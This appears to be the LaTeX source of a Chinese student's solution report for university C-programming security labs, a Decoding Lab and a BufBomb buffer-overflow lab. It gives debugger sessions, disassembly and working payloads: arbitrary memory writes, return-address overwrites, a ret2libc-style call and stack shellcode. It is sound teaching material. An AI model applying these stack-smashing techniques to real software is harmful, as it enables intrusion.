\documentclass[a4pper,12pt,onecolumn]{article}
\usepackage[UTF8]{ctex}
\usepackage[affil-it]{authblk}
\usepackage[hidelinks]{hyperref}
% \usepackage{minted}
\usepackage{listings}
\usepackage{spverbatim}
\usepackage{xcolor}
\usepackage{graphicx}
\usepackage{geometry}
\usepackage{fontspec}

\geometry{a4paper,left=2cm,right=2cm,top=2cm,bottom=2cm}
\setmonofont[Mapping=tex-text]{Source Code Pro}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{codesstyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstdefinestyle{DOS}
{
    backgroundcolor=\color{black},
    basicstyle=\scriptsize\color{white}\ttfamily, 
    numbers=none
}

\lstset{style=codesstyle}
% \usepackage{courier}
\title{C语言程序设计安全项目解题报告}
\author{Tiger1218\thanks{email me at tiger1218@foxmail.com}}
\affil{四川大学网络空间安全学院}
\date{\today}
\begin{document}
\maketitle

\tableofcontents

\section{Intros}

此报告主要基于我发布在我博客上的三篇文章,\href{https://tiger1218.com/2022/12/19/scuccs-c-security-lab1/}{Decoding Lab}, \href{https://tiger1218.com/2022/12/20/scuccs-c-security-lab2/}{bufbomb}和\href{https://tiger1218.com/2022/12/21/scuccs-c-security-lab3/}{Bomb Lab}。
在解题过程中需要用到的所有文件都已被存储在\href{}{我的Github仓库}中。每个Lab的每个Section的编译选项都已注明。以下是硬件环境:

\begin{lstlisting}[style=DOS]
    root@workshop:~# lscpu
    Architecture:            x86_64
      CPU op-mode(s):        32-bit, 64-bit
      Address sizes:         46 bits physical, 48 bits virtual
      Byte Order:            Little Endian
    CPU(s):                  2
      On-line CPU(s) list:   0,1
    Vendor ID:               GenuineIntel
      Model name:            Intel(R) Xeon(R) Platinum 8255C CPU @ 2.50GHz
        CPU family:          6
        Model:               85
        Thread(s) per core:  1
        Core(s) per socket:  2
        Socket(s):           1
        Stepping:            5
        BogoMIPS:            5000.00
    root@workshop:~# free -m
                   total        used        free      shared  buff/cache   available
    Mem:            1975         270         160           2        1544        1540
    Swap:              0           0           0
    root@workshop:~# uname -a
    Linux workshop 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14
    root@workshop:~# vim --version
    VIM - Vi IMproved 8.2 (2019 Dec 12, compiled Sep 13 2022 09:35:02)
    root@workshop:~# gcc --version
    gcc (Ubuntu 11.3.0-1ubuntu1~22.04) 11.3.0
\end{lstlisting}

\section{Lab1: Decoding Lab}

\subsection{Key1 \& Key2}

根据 \texttt{guide.html},我们首先只需要考虑 \texttt{key1}和 \texttt{key2};而我们应该要得到一串解密后的字符串,以 \texttt{From:}开头。审计函数 \texttt{extract\_message1},经过黑盒 \& 白盒测试,我们可以发现该函数会从 \texttt{start+1}处开始,每 \texttt{stride}个字符,drop一个字符。考虑到小端序,我们整个字符数组应该为:

这是我们的解题脚本:

\begin{figure}[htpb]
    \lstinputlisting[language=python]{codes/solve.py}
    \caption{转换为在小端序电脑下的内存模式}
    \label{fig:solve}
\end{figure}

定位 \texttt{F,r,o,m}。最后得出 \texttt{start=9 \& stride=3}。

 \texttt{start}为dummy(在内存中)的第一个byte,  \texttt{stride}为dummy(在内存中)的第二个byte。

然而Linux和Windows都是小端序,所以正确的解释是: \texttt{start}是dummy的Least Significant Byte, \texttt{stride}则是次低位。

也就是 \texttt{dummy}应该为0x????0309。?可以取任何值。

看到 \texttt{process\_keys12},该函数可以视为一个任意内存写:将 \texttt{key1}赋值为 \texttt{\&key1}相对于指定修改内存的偏移, \texttt{key2}为指定修改的值。

一种可能的解法就是修改 \texttt{dummy}。我们可以用反汇编软件或gdb知道 \texttt{\&dummy}与 \texttt{\&key1}的偏移。

\begin{lstlisting}[style=DOS]
    pwndbg> set args 0 0x0102
    pwndbg> b lab1.c:76
    Breakpoint 1 at 0x1479: file lab1.c, line 77.
    pwndbg> r
    Starting program: /root/repos/SCUCCS/C-Programming/Security Labs/lab1/lab1 0 0x0102
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

    Breakpoint 1, main (argc=3, argv=0x7fffffffe378) at lab1.c:77
    warning: Source file is more recent than executable.
    77	    process_keys12(&key1, &key2);
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    ──────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────
    *RAX  0x102
    RBX  0x0
    *RCX  0x7fffffffe65e ◂— 0x2f3d4c4c45485300
    RDX  0x0
    *RDI  0x10
    *RSI  0x102
    *R8   0xfffffffffffffff
    R9   0x0
    *R10  0x7ffff7f4aac0 (_nl_C_LC_CTYPE_toupper+512) ◂— 0x100000000
    *R11  0x7ffff7f4b3c0 (_nl_C_LC_CTYPE_class+256) ◂— 0x2000200020002
    *R12  0x7fffffffe378 —▸ 0x7fffffffe61d ◂— '/root/repos/SCUCCS/C-Programming/Security Labs/lab1/lab1'
    *R13  0x5555555553a2 (main) ◂— endbr64 
    *R14  0x555555557da0 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555180 (__do_global_dtors_aux) ◂— endbr64 
    *R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
    *RBP  0x7fffffffe260 ◂— 0x3
    *RSP  0x7fffffffe210 —▸ 0x7fffffffe378 —▸ 0x7fffffffe61d ◂— '/root/repos/SCUCCS/C-Programming/Security Labs/lab1/lab1'
    *RIP  0x555555555479 (main+215) ◂— lea rdx, [rbp - 0x2c]
    ───────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────
    ► 0x555555555479 <main+215>    lea    rdx, [rbp - 0x2c]
    0x55555555547d <main+219>    lea    rax, [rbp - 0x30]
    0x555555555481 <main+223>    mov    rsi, rdx
    0x555555555484 <main+226>    mov    rdi, rax
    0x555555555487 <main+229>    call   process_keys12                <process_keys12>
    
    0x55555555548c <main+234>    lea    rax, [rbp - 0x34]
    0x555555555490 <main+238>    movzx  eax, byte ptr [rax]
    0x555555555493 <main+241>    movsx  eax, al
    0x555555555496 <main+244>    mov    dword ptr [rbp - 0x20], eax
    0x555555555499 <main+247>    lea    rax, [rbp - 0x34]
    0x55555555549d <main+251>    add    rax, 1
    ─────────────────────────────────────────────────────────────────────────────────────────[ SOURCE (CODE) ]─────────────────────────────────────────────────────────────────────────────────────────
    In file: /root/repos/SCUCCS/C-Programming/Security Labs/lab1/lab1.c
    72     key1 = strtol(argv[1], NULL, 0);
    73     key2 = strtol(argv[2], NULL, 0);
    74     if (argc > 3) key3 = strtol(argv[3], NULL, 0);
    75     if (argc > 4) key4 = strtol(argv[4], NULL, 0);
    76 
    ► 77     process_keys12(&key1, &key2);
    78 
    79     start = (int)(*(((char *) &dummy)));
    80     stride = (int)(*(((char *) &dummy) + 1));
    81 
    82     if (key3 != 0 && key4 != 0) {
    ─────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────────────────────
    00:0000│ rsp 0x7fffffffe210 —▸ 0x7fffffffe378 —▸ 0x7fffffffe61d ◂— '/root/repos/SCUCCS/C-Programming/Security Labs/lab1/lab1'
    01:0008│     0x7fffffffe218 ◂— 0x300000000
    02:0010│     0x7fffffffe220 ◂— 0x0
    03:0018│     0x7fffffffe228 ◂— 0x100000000
    04:0020│     0x7fffffffe230 ◂— 0x10200000000
    05:0028│     0x7fffffffe238 ◂— 0x0
    ... ↓        2 skipped
    ───────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────────────────────
    ► f 0   0x555555555479 main+215
    f 1   0x7ffff7db5d90 __libc_start_call_main+128
    f 2   0x7ffff7db5e40 __libc_start_main+128
    f 3   0x555555555105 _start+37
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    pwndbg> p &dummy
    $1 = (int *) 0x7fffffffe22c
    pwndbg> p &dummy-&key1
    $2 = -1
\end{lstlisting}

所以第一阶段的payload为 \texttt{./lab1 -1 0x0309}。

\begin{lstlisting}[style=DOS]
    root@workshop:~/repos/SCUCCS/C-Programming/Security Labs/lab1# ./lab1 -1 0x0309
    From: Friend
    To: You
    Good! Now try choosing keys3,4 to force a call to extract2 and
    avoid the call to extract1
\end{lstlisting}

\subsection{Key3 \& Key4}

观察得知:

\begin{enumerate}
    \item 与 \texttt{process\_keys12}一样, \texttt{process\_keys34}也是一个任意内存写。
    \item 除非修改了 \texttt{data}、 \texttt{start}或者 \texttt{stride}, \texttt{extract\_message1}执行后一定会使得 \texttt{msg1}不等于空。
    \item  \texttt{start}和 \texttt{stride}应该不变;不然 \texttt{extract\_message2}的返回值, \texttt{msg2}就会被修改
    \item  \texttt{process\_keys34}会执行两次; \texttt{process\_keys34}的修改又是偏移性质,所以两次对内存的修改结果可能不一样。
\end{enumerate}

由此可以得出两个解题思路:

\begin{enumerate}
    \item 在第一处 \texttt{process\_keys34}时修改返回地址,在 \texttt{ret}的时候跳转到语句 \texttt{msg2 = extract\_message2(start, stride);}所在的地址。
    \item 在第一处 \texttt{process\_keys34}时将 \texttt{data}的第10位修改为0。这样我们就可以进入if;进入if后的第二处 \texttt{process\_keys34}又可以通过offset式的修改方法把第10位置为不为0的数,因此可以输出 \texttt{msg2}。
\end{enumerate}

在这里仅简述第一种做法的方法。

\begin{lstlisting}[style=DOS]
    pwndbg> set args -1 0x0309 4 49
    pwndbg> b lab1.c:30
    Breakpoint 1 at 0x1247: file lab1.c, line 30.
    pwndbg> r
    Starting program: /root/repos/SCUCCS/C-Programming/Security Labs/lab1/lab1 -1 0x0309 4 49
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

    Breakpoint 1, process_keys34 (key3=0x7fffffffe228, key4=0x7fffffffe22c) at lab1.c:30
    warning: Source file is more recent than executable.
    30	    *(((int *)&key3) + *key3) += *key4;
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    ──────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────
    *RAX  0x7fffffffe228 ◂— 0x3100000004
    RBX  0x0
    *RCX  0x7fffffffe65e ◂— 0x2f3d4c4c45485300
    *RDX  0x7fffffffe22c ◂— 0x900000031 /* '1' */
    *RDI  0x7fffffffe228 ◂— 0x3100000004
    *RSI  0x7fffffffe22c ◂— 0x900000031 /* '1' */
    *R8   0x1999999999999999
    R9   0x0
    *R10  0x7ffff7f4aac0 (_nl_C_LC_CTYPE_toupper+512) ◂— 0x100000000
    *R11  0x7ffff7f4b3c0 (_nl_C_LC_CTYPE_class+256) ◂— 0x2000200020002
    *R12  0x7fffffffe368 —▸ 0x7fffffffe617 ◂— '/root/repos/SCUCCS/C-Programming/Security Labs/lab1/lab1'
    *R13  0x5555555553a2 (main) ◂— endbr64 
    *R14  0x555555557da0 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555180 (__do_global_dtors_aux) ◂— endbr64 
    *R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
    *RBP  0x7fffffffe1f0 —▸ 0x7fffffffe250 ◂— 0x5
    *RSP  0x7fffffffe1f0 —▸ 0x7fffffffe250 ◂— 0x5
    *RIP  0x555555555247 (process_keys34+16) ◂— mov rax, qword ptr [rbp - 8]
    ───────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────
    ► 0x555555555247 <process_keys34+16>    mov    rax, qword ptr [rbp - 8]
    0x55555555524b <process_keys34+20>    mov    eax, dword ptr [rax]
    0x55555555524d <process_keys34+22>    cdqe   
    0x55555555524f <process_keys34+24>    lea    rdx, [rax*4]
    0x555555555257 <process_keys34+32>    lea    rax, [rbp - 8]
    0x55555555525b <process_keys34+36>    add    rax, rdx
    0x55555555525e <process_keys34+39>    mov    ecx, dword ptr [rax]
    0x555555555260 <process_keys34+41>    mov    rax, qword ptr [rbp - 0x10]
    0x555555555264 <process_keys34+45>    mov    edx, dword ptr [rax]
    0x555555555266 <process_keys34+47>    mov    rax, qword ptr [rbp - 8]
    0x55555555526a <process_keys34+51>    mov    eax, dword ptr [rax]
    ─────────────────────────────────────────────────────────────────────────────────────────[ SOURCE (CODE) ]─────────────────────────────────────────────────────────────────────────────────────────
    In file: /root/repos/SCUCCS/C-Programming/Security Labs/lab1/lab1.c
    25 void process_keys12 (int * key1, int * key2) {
    26     *((int *) (key1 + *key1)) = *key2;
    27 }
    28 
    29 void process_keys34 (int * key3, int * key4) {
    ► 30     *(((int *)&key3) + *key3) += *key4;
    31 }
    32 
    33 char * extract_message1(int start, int stride) {
    34     int i, j, k;
    35     int done = 0;
    ─────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────────────────────
    00:0000│ rbp rsp             0x7fffffffe1f0 —▸ 0x7fffffffe250 ◂— 0x5
    01:0008│                     0x7fffffffe1f8 —▸ 0x5555555554cb (main+297) ◂— mov edx, dword ptr [rbp - 0x1c]
    02:0010│                     0x7fffffffe200 —▸ 0x7fffffffe368 —▸ 0x7fffffffe617 ◂— '/root/repos/SCUCCS/C-Programming/Security Labs/lab1/lab1'
    03:0018│                     0x7fffffffe208 ◂— 0x500000000
    04:0020│                     0x7fffffffe210 ◂— 0x0
    05:0028│                     0x7fffffffe218 ◂— 0x30900000000
    06:0030│                     0x7fffffffe220 ◂— 0x309ffffffff
    07:0038│ rax rdi rdx-4 rsi-4 0x7fffffffe228 ◂— 0x3100000004
    ───────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────────────────────
    ► f 0   0x555555555247 process_keys34+16
    f 1   0x5555555554cb main+297
    f 2   0x7ffff7db5d90 __libc_start_call_main+128
    f 3   0x7ffff7db5e40 __libc_start_main+128
    f 4   0x555555555105 _start+37
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    pwndbg> p &key3-$rbp
    First argument of `-' is a pointer and second argument is neither
    an integer nor a pointer of the same type.
    pwndbg> p 0x7fffffffe1f8 - (long)&key3
    $1 = 16
\end{lstlisting}

一个 \texttt{int}是4个bytes,所以key3应该为4,才能修改栈上的返回值。

\begin{lstlisting}[style=DOS]
    root@workshop:~/repos/SCUCCS/C-Programming/Security Labs/lab1# objdump -d lab1 -M intel| grep process_keys34
    0000000000001237 <process_keys34>:
        14c6:	e8 6c fd ff ff       	call   1237 <process_keys34>
        14f7:	e8 3b fd ff ff       	call   1237 <process_keys34>
\end{lstlisting}

$ \mathrm{0x14f7}-\mathrm{0x14c6}=49 $

因此key4就是49。

稍微解释一下为什么可以这么做:原返回值一定是第一个 \texttt{call process\_keys}的下一位汇编的地址;要修改成的返回值也要是第二个 \texttt{call process\_keys}的地址。这两条指令的长短相等,故返回值之差一定也为49。

所以第二阶段的payload为 \texttt{./lab1 -1 0x0309 4 49}。

\begin{lstlisting}[style=DOS]
    root@workshop:~/repos/SCUCCS/C-Programming/Security Labs/lab1# ./lab1 -1 0x0309 4 49
    From: CTE
    To: You
    Excellent!You got everything!
\end{lstlisting}

\subsection{Summary}

首先,总地来说,这个 \texttt{Decoding Lab}的水平明显不如CSAPP Labs。第一个问题在于该题在不同平台甚至不同编译优化环境下的payload不一样,这就让调试非常头疼:如果目标解题者,这种调试是很难的————尤其是在初学者尚未用明白gdb的时候,静态分析源程序基本分析不出来;比如 \texttt{dummy}和 \texttt{key1}之间的差,如果看源代码很容易误以为偏移是`-3`,但是编译器在优化的时候其实会把 \texttt{dummy}+ \texttt{key1}与 \texttt{start}+ \texttt{stride}错开,哪怕调到 \texttt{-Og}都是一样。第二个问题在于第二问有一些脑洞的成分,在解决第一问后,很容易将思路放在修改特定的数据上面,但是仔细分析后才能发现,修改 \texttt{dummy}/ \texttt{start}/ \texttt{stride}都不行,要修改 \texttt{data}或者栈上存储的返回值。

其次,顺利+能够形成激励机制地完成这个lab所需要的技术栈太大了。我(相对算比较轻松地)完成这个lab用到的技术栈有:

\begin{itemize}
\item 熟悉汇编语言
\item 熟悉指针、Linux内存机制
\item 丰富的Linux使用经验
\item 丰富的gdb经验
\end{itemize}

对其中一项或者几项不熟悉都会使得完成该Lab变成痛苦的事情。

\section{Lab2: BufBomb}

这道题的最低利用条件应该是  \texttt{No Canary}+ \texttt{No PIE}。

\subsection{solution1}

\begin{itemize}
    \item elf file:  \texttt{bufbomb}
    \item compile command: gcc -m32 bufbomb.c -o bufbomb -g -no-pie -fno-stack-protector -O0
    \item guard: no PIE, no Canary
\end{itemize}

审计题目源码后最容易发现的解法应该是跳过赋值语句,直接到 \texttt{printf}语句。

\begin{lstlisting}[style=DOS]
    080492ae <test>:
    80492ae:	55                   	push   ebp
    80492af:	89 e5                	mov    ebp,esp
    80492b1:	53                   	push   ebx
    80492b2:	83 ec 14             	sub    esp,0x14
    80492b5:	e8 26 fe ff ff       	call   80490e0 <__x86.get_pc_thunk.bx>
    80492ba:	81 c3 46 2d 00 00    	add    ebx,0x2d46
    80492c0:	83 ec 0c             	sub    esp,0xc
    80492c3:	8d 83 08 e0 ff ff    	lea    eax,[ebx-0x1ff8]
    80492c9:	50                   	push   eax
    80492ca:	e8 81 fd ff ff       	call   8049050 <printf@plt>
    80492cf:	83 c4 10             	add    esp,0x10
    80492d2:	e8 b1 ff ff ff       	call   8049288 <getbuf>
    80492d7:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
    80492da:	83 ec 08             	sub    esp,0x8
    80492dd:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
    80492e0:	8d 83 19 e0 ff ff    	lea    eax,[ebx-0x1fe7]
    80492e6:	50                   	push   eax
    80492e7:	e8 64 fd ff ff       	call   8049050 <printf@plt>
    80492ec:	83 c4 10             	add    esp,0x10
    80492ef:	90                   	nop
    80492f0:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
    80492f3:	c9                   	leave  
    80492f4:	c3                   	ret
\end{lstlisting}

如以上代码所述,在 \texttt{0x80492d2}处执行完 \texttt{getbuf},接下来是把返回值(即 \texttt{eax})压进栈中,然后再把字符串(即 \texttt{getbuf returned \%x\\n})地址压入栈中。因为我们可以通过 \texttt{getxs}操作整个 \texttt{getbuf}函数的栈,又因为 \texttt{test}函数调用了 \texttt{getbuf}函数————也就是 \texttt{test}在 \texttt{getbuf}逻辑意义上的上面(或者物理意义的下面),我们也可以操纵整个 \texttt{test}的栈。这样第一种利用 \texttt{printf}语句的方法就很容易得出了:跳到 \texttt{0x80492e0},然后控制栈顶使栈顶为0xdeadbeef。

\begin{lstlisting}[style=DOS]
    08049288 <getbuf>:
    8049288:	55                   	push   ebp
    8049289:	89 e5                	mov    ebp,esp
    804928b:	83 ec 18             	sub    esp,0x18
    804928e:	e8 bb 00 00 00       	call   804934e <__x86.get_pc_thunk.ax>
    8049293:	05 6d 2d 00 00       	add    eax,0x2d6d
    8049298:	83 ec 0c             	sub    esp,0xc
    804929b:	8d 45 e8             	lea    eax,[ebp-0x18]
    804929e:	50                   	push   eax
    804929f:	e8 02 ff ff ff       	call   80491a6 <getxs>
    80492a4:	83 c4 10             	add    esp,0x10
    80492a7:	b8 01 00 00 00       	mov    eax,0x1
    80492ac:	c9                   	leave  
    80492ad:	c3                   	ret
\end{lstlisting}

显然栈抬升了0x18个Bytes(注意栈从高向低生长)。因此我们的Payload需要加上0x18个Bytes的填充。

程序为32位程序;那么Payload还需要加上0x04个Bytes来填充edp。

最后我们需要将存储的eip指针覆盖为我们想要去的地址,也就是 \texttt{0x80492e0},并且使得覆盖完后的栈顶\footnote{基本的\href{https://www.cnblogs.com/clover-toeic/p/3755401.html}{C语言函数调用栈}知识可以看这篇文章。}为0xdeadbeef。(注意Linux x64是小端序机器)

这是一种Payload:00000000 00000000 00000000 00000000 00000000 00000000 00000000 E0920408 EFBEADDE

\subsection{solution2}

\begin{itemize}
    \item elf file:  \texttt{bufbomb}
    \item compile command: gcc -m32 bufbomb.c -o bufbomb -g -no-pie -fno-stack-protector -O0
    \item guard: no PIE, no Canary
\end{itemize}

另外一个非常容易想到的思路和 \texttt{ret2libc}\footnote{在CTF-Wiki上简述了\href{https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/\#ret2libc}{ret2libc}的原理和利用方法。}非常像。

我们完全可以不使用 \texttt{0x080492e7}处的 \texttt{printf}————我们可以自己构造一个出来!

字符串的地址是 \texttt{0x0804A019},第二个参数应为0xdeadbeef,所以根据i386架构下的 \texttt{ret2libc}原理,我们可以写出以下payload:

\begin{lstlisting}[style=DOS]
    padding + ebp + (target address) + (return address) + arg1 + arg2 + arg3 ... 
\end{lstlisting}

与solution1中一样,padding为0x18Bytes,ebp为0x04Bytes。目标函数为 \texttt{printf}在plt表中的位置。return function可以不填。arg1为 \texttt{0x0804A019},arg2为0xdeadbeef。

\begin{lstlisting}[style=DOS]
    00:0000│ eax esp 0xffffd3b0 ◂— 0x0
    ... ↓            6 skipped
    07:001c│         0xffffd3cc —▸ 0x8049050 (printf@plt) ◂— jmp dword ptr [0x804c010]
    08:0020│         0xffffd3d0 ◂— 0x0
    09:0024│         0xffffd3d4 —▸ 0x804a019 ◂— 'getbuf returned 0x%x\n'
    0a:0028│         0xffffd3d8 ◂— 0xdeadbeef
\end{lstlisting}

从上至下依次是28Bytes的padding zeros,目标函数地址,返回地址,参数1,参数2。

payload: ``00000000 00000000 00000000 00000000 00000000 00000000 00000000 50900408 00000000 19A00408 EFBEADDE''

\subsection{solution3}

\begin{itemize}
    \item elf file:  \texttt{bufbomb-no-nx}
    \item compile command: gcc -m32 bufbomb.c -o bufbomb-no-nx -g -no-pie -fno-stack-protector -O0 -z execstack
    \item guard: no PIE, no Canary, no NX, no ASLR
\end{itemize}

接下来我们来讨论在关闭 \texttt{NX}保护和关闭 \texttt{ASLR}保护的利用情况。\footnote{\href{https://stackoverflow.com/questions/2340259/how-to-turn-off-gcc-compiler-optimization-to-enable-buffer-overflow}{How to turn off gcc compiler optimization to enable buffer overflow? - stackoverflow}}

我们可以回顾一下程序的各个section基本情况:

\begin{lstlisting}[style=DOS]
    0x8048000  0x8049000 r--p     1000      0 /root/repos/SCUCCS/C-Programming/Security Labs/lab2/bufbomb-no-nx
    0x8049000  0x804a000 r-xp     1000   1000 /root/repos/SCUCCS/C-Programming/Security Labs/lab2/bufbomb-no-nx
    0x804a000  0x804b000 r--p     1000   2000 /root/repos/SCUCCS/C-Programming/Security Labs/lab2/bufbomb-no-nx
    0x804b000  0x804c000 r--p     1000   2000 /root/repos/SCUCCS/C-Programming/Security Labs/lab2/bufbomb-no-nx
    0x804c000  0x804d000 rw-p     1000   3000 /root/repos/SCUCCS/C-Programming/Security Labs/lab2/bufbomb-no-nx
    0x804d000  0x806f000 rw-p    22000      0 [heap]
    0xf7d81000 0xf7da1000 r--p    20000      0 /usr/lib/i386-linux-gnu/libc.so.6
    0xf7da1000 0xf7f23000 r-xp   182000  20000 /usr/lib/i386-linux-gnu/libc.so.6
    0xf7f23000 0xf7fa8000 r--p    85000 1a2000 /usr/lib/i386-linux-gnu/libc.so.6
    0xf7fa8000 0xf7fa9000 ---p     1000 227000 /usr/lib/i386-linux-gnu/libc.so.6
    0xf7fa9000 0xf7fab000 r--p     2000 227000 /usr/lib/i386-linux-gnu/libc.so.6
    0xf7fab000 0xf7fac000 rw-p     1000 229000 /usr/lib/i386-linux-gnu/libc.so.6
    0xf7fac000 0xf7fb6000 rw-p     a000      0 [anon_f7fac]
    0xf7fbe000 0xf7fc0000 rw-p     2000      0 [anon_f7fbe]
    0xf7fc0000 0xf7fc4000 r--p     4000      0 [vvar]
    0xf7fc4000 0xf7fc6000 r-xp     2000      0 [vdso]
    0xf7fc6000 0xf7fc7000 r--p     1000      0 /usr/lib/i386-linux-gnu/ld-linux.so.2
    0xf7fc7000 0xf7fec000 r-xp    25000   1000 /usr/lib/i386-linux-gnu/ld-linux.so.2
    0xf7fec000 0xf7ffb000 r--p     f000  26000 /usr/lib/i386-linux-gnu/ld-linux.so.2
    0xf7ffb000 0xf7ffd000 r--p     2000  34000 /usr/lib/i386-linux-gnu/ld-linux.so.2
    0xf7ffd000 0xf7ffe000 rw-p     1000  36000 /usr/lib/i386-linux-gnu/ld-linux.so.2
    0xfffdd000 0xffffe000 rwxp    21000      0 [stack]
\end{lstlisting}

\begin{enumerate}
    \item .code段有读、执行权限,但是没有写权限
    \item .data、heap、通常情况下的stack段,都是只有读写权限
    \item .rodata只有读权限
\end{enumerate}

一般来说,写权限和执行权限应该尽量分开。这种保护方法就叫NX保护————或者No eXecute保护。

但是如果我们主动在gcc编译中关闭NX保护,那我们就可以得到一个RWX段,也就是同时有读、写、执行权限的段,栈。

这时我们可以考虑将shellcode写在栈上,然后劫持控制流到shellcode的开始处。这时Payload应具有下面的结构:

\begin{lstlisting}[style=DOS]
    shellcode + padding + ebp + shellcode's start addr
\end{lstlisting}

第二个问题出现了。shellcode写在栈上,虽然我们可以通过关闭NX保护将shellcode从不可执行变成可执行,但是我们并不知道shellcode的地址。每次我们运行程序的时候,内核都会随机加载程序的地址空间。

Problem solved!那就让我们随便试两条汇编指令吧!

\begin{lstlisting}[style=DOS]
    080492ae <test>:
    80492ae:	55                   	push   ebp
    80492af:	89 e5                	mov    ebp,esp
    80492b1:	53                   	push   ebx
    80492b2:	83 ec 14             	sub    esp,0x14
    80492b5:	e8 26 fe ff ff       	call   80490e0 <__x86.get_pc_thunk.bx>
    80492ba:	81 c3 46 2d 00 00    	add    ebx,0x2d46
    80492c0:	83 ec 0c             	sub    esp,0xc
    80492c3:	8d 83 08 e0 ff ff    	lea    eax,[ebx-0x1ff8]
    80492c9:	50                   	push   eax
    80492ca:	e8 81 fd ff ff       	call   8049050 <printf@plt>
    80492cf:	83 c4 10             	add    esp,0x10
    80492d2:	e8 b1 ff ff ff       	call   8049288 <getbuf>
    80492d7:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
    80492da:	83 ec 08             	sub    esp,0x8
    80492dd:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
    80492e0:	8d 83 19 e0 ff ff    	lea    eax,[ebx-0x1fe7]
    80492e6:	50                   	push   eax
    80492e7:	e8 64 fd ff ff       	call   8049050 <printf@plt>
    80492ec:	83 c4 10             	add    esp,0x10
    80492ef:	90                   	nop
    80492f0:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
    80492f3:	c9                   	leave  
    80492f4:	c3                   	ret
\end{lstlisting}

\begin{lstlisting}[language={[x86masm]Assembler}]
    mov eax, 0xdeadbeef
    push 0x80492d7
    ret ; or you can simply jmp :)
    ;B8EFBEAD DE68D792 0408C300 00000000 00000000 00000000 EBP ADDR
\end{lstlisting}

\begin{lstlisting}[style=DOS]
    0x80492a7  <getbuf+31>    mov    eax, 1
    0x80492ac  <getbuf+36>    leave  
    0x80492ad  <getbuf+37>    ret    
     ↓
    0xffffd380                mov    eax, 0xdeadbeef
  ► 0xffffd385                push   test+41                       <0x80492d7>
    0xffffd38a                ret    
     ↓
    0x80492d7  <test+41>      mov    dword ptr [ebp - 0xc], eax
    0x80492da  <test+44>      sub    esp, 8
    0x80492dd  <test+47>      push   dword ptr [ebp - 0xc]
    0x80492e0  <test+50>      lea    eax, [ebx - 0x1fe7]
    0x80492e6  <test+56>      push   eax
\end{lstlisting}

当跳转到0x80492d7后,这一切就像无事发生,只不过返回值,也就是 \texttt{eax}会被改成0xdeadbeef。\footnote{我们可以使用\href{https://docs.pwntools.com/en/stable/asm.html}{PWNTools中的ASM模块}来将汇编代码编译成字节码。}

\begin{lstlisting}[language={[x86masm]Assembler}]
    push 0xdeadbeef
    push 0x80492e0
    ret

    ;payload: 68EFBEAD DE68E092 0408C300 00000000 00000000 00000000 EBP ADDR
\end{lstlisting}

\begin{lstlisting}[style=DOS]
    0x80492a7  <getbuf+31>    mov    eax, 1
    0x80492ac  <getbuf+36>    leave  
    0x80492ad  <getbuf+37>    ret    
     ↓
    0xffffd380                push   0xdeadbeef
  ► 0xffffd385                push   test+50                       <0x80492e0>
    0xffffd38a                ret    
     ↓
    0x80492e0  <test+50>      lea    eax, [ebx - 0x1fe7]
    0x80492e6  <test+56>      push   eax
    0x80492e7  <test+57>      call   printf@plt                     <printf@plt>
  
    0x80492ec  <test+62>      add    esp, 0x10
    0x80492ef  <test+65>      nop
\end{lstlisting}

跳转到0x80492e0也就意味着跳过了push第二个参数。因此,我们可以直接通过栈操作到给第二个参数赋值。

当然,既然我们可以执行任意汇编代码了,那我们有很多种方法来使得输出达到我们想要的结果。

\subsection{solution4/彩蛋}

\begin{itemize}
    \item elf file:  \texttt{bufbomb-no-nx}
    \item compile command: gcc -m32 bufbomb.c -o bufbomb-no-nx -g -no-pie -fno-stack-protector -O0 -z execstack
    \item guard: no PIE, no Canary, no NX, no ASLR
\end{itemize}

